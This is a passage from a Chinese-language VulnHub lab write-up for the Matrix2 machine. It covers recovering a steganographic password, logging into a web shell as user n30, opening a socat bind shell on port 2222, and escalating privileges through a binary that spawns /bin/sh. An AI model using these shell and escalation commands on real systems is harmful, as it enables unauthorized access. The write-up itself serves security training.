 根据这个输出，可以判断出来，这个图片肯定是存在隐写的了，但是要求输入密码，这个密码我们可以推测，当我们刚刚登陆进入nginx以后，首页中的红色字体有可能就是密码，也就是n30，我们尝试输入n30。

![1553691868989](F:\学习资料\github\vulnhub-writeup\matrix2-Unknowndevice64\assets\1553691868989.png)

成功的导出txt文件，其名称同样为n30，打开这个txt文件，只有一个字符串

```shell
P4$$w0rd
```

猜测它就是密码，既然有密码了，那么肯定有一个登陆的地方。

# 五、12320端口web端shell利用

这时候，我们可以回想起来，前期信息收集的时候，找到了一个12320端口打开是一个web端的shell，可以猜测那里进行登陆。

用root登陆会提示密码错误，那么说明不是root用户的。大胆猜测，既然文本命名为n30，那么是不是有这个用户呢。

尝试用n30登陆，登陆成功

![1553692255830](F:\学习资料\github\vulnhub-writeup\matrix2-Unknowndevice64\assets\1553692255830.png)

那么为了方便操作呢，我们反弹shell回来。这个环境里没有nc命令，但是有socat命令，我们用socat反弹

首先在web的shell中输入

```shell
socat TCP-LISTEN:2222,reuseaddr,fork EXEC:bash,pty,stderr,setsid,sigint,sane
```

然后在本地输入

```shell

```

![1553692515943](F:\学习资料\github\vulnhub-writeup\matrix2-Unknowndevice64\assets\1553692515943.png)

进入普通用户了，那么我们下一步肯定就是提权了。

# 六、提权

首先让我们查看一下它的历史命令

```shell
cd /home/n30
ls -al
more .bash_history
```

![1553692710898](F:\学习资料\github\vulnhub-writeup\matrix2-Unknowndevice64\assets\1553692710898.png)

看到了么，有一条命令看上去就像是提权的

```shell
morpheus 'BEGIN {system("/bin/sh")}'
```
